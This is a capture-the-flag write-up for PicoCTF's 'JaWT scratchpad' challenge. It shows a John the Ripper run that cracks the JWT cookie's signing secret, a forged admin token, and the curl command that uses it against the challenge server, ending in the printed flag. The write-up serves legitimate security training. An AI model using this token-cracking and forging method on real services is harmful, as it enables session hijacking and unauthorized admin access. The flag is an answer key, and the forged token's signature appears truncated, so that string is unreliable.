 ```yaml
---
title: "JaWT scratchpad from PicoCTF"
categories: [PicoCTF]
tags: [PicoCTF]
---
```

# JaWT scratchpad from PicoCTF
[page](https://play.picoctf.org/practice/challenge/25?category=1&difficulty=2&page=1)
>Description
>Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/63090/` or http://jupiter.challenges.picoctf.org:63090

>Hints
>What is that cookie?
>Have you heard of JWT?

That means we have to modify cookie to access the flag, also that is `JWT token`so we will have to visit this site: [jwt.io](https://jwt.io/) and load the cookie we get after logging in with any user. Just to try login with `admin`but when you try it will deny. So `inspect` and copy the `jwt`cookie you get after logging in: ![](/assets/images/Screenshot from 2024-07-22 19-09-54.png)
Copy that and go to [jwt.io](https://jwt.io/) and paste the cookie there.
Notice how there is `John`in the end with link that takes us to `John The Ripper`, So we have to brute force this token to get the password:
```bash
$ john --format=HMAC-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt token.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)
1g 0:00:00:00 DONE (2024-07-22 19:01) 1.010g/s 7480Kp/s 7480Kc/s 7480KC/s ilovetitor..ilovejesus789
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
There it is the password: `ilovepico` go to [jwt.io](https://jwt.io/)  and fill the password in and also change the name to `admin`:
![](/assets/images/Screenshot from 2024-07-22 19-13-53.png)
and use `curl`or `burpsuite`to change the cookie, i used curl because it's faster:
```bash
$ curl http://jupiter.challenges.picoctf.org:63090/ --cookie "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1291  100  1291    0     0   2991      0 --:--:-- --:--:-- --:--:--  2988
					<textarea style="margin: 0 auto; display: block;">picoCTF{jawt_was_just_what_you_thought_f859ab2f}</textarea>
```
And that's the flag:
**picoCTF{jawt_was_just_what_you_thought_f859ab2f}**
